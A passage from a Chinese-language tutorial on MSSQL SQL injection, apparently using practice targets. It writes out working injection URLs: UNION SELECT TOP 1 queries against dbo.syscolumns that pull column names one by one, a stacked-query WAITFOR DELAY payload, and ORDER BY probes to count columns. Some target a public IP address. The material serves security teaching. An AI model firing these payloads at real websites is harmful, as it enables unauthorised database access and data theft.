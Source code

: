 **排序&amp;获取下一条数据**

mssql数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，后面与Oracle数据库注入一样，使用&lt;&gt;或not in 来排除已经显示的数据，获取下一条数据。但是与Oracle数据库不同的是使用not in的时候后面需要带上(‘’)，类似数组，也就是不需要输入多个not in来获取数据，这可以很大程序减少输入的数据量，如下：

```
#使用&lt;&gt;获取数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name&lt;&gt;'id' and name&lt;&gt;'username'-- qwe
#使用not in获取数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')-- qwe
```

[![](https://p2.ssl.qhimg.com/t015afc1e1d3880b015.png)](https://p2.ssl.qhimg.com/t015afc1e1d3880b015.png)

**<a class="reference-link" name="%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5"></a>堆叠注入**

在SQL中，执行语句是通过;分割的，如果我们输入的;被数据库带入执行，那么就可以在其后加入sql执行语句，导致多条语句一起执行的注入，我们将其命名为堆叠注入。具体情况如下，很明显两条语句都进行了执行。

```
http://192.168.150.4:9001/less-1.asp?id=1';WAITFOR DELAY '0:0:5';-- qwe
```

[![](https://p5.ssl.qhimg.com/t0181df866952842a55.png)](https://p5.ssl.qhimg.com/t0181df866952842a55.png)



## 0x03 显错注入

### <a class="reference-link" name="1%E3%80%81%E5%88%A4%E6%96%AD%E5%BD%93%E5%89%8D%E5%AD%97%E6%AE%B5%E6%95%B0"></a>1、判断当前字段数

```
http://219.153.49.228:40574/new_list.asp?id=2 order by 4
```

[![](https://p1.ssl.qhimg.com/t01fbee2e795a2338d5.png)](https://p1.ssl.qhimg.com/t01fbee2e795a2338d5.png)

```
http://219.153.49.228:40574/new_list.asp?id=2 order by 5
```

[![](https://p4.ssl.qhimg.com/t015ef0881aee65eff3.png)](https://p4.ssl.qhimg.com/t015ef0881aee65eff3.png)

通过order by报错情况，可以判断出当前字段为4。

### <a class="reference-link" name="2%E3%80%81%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2%EF%BC%8C%E8%8E%B7%E5%8F%96%E6%98%BE%E9%94%99%E7%82%B9"></a>2、联合查询，获取显错点

1、首先因为不知道具体类型，所以还是先用null来填充字符
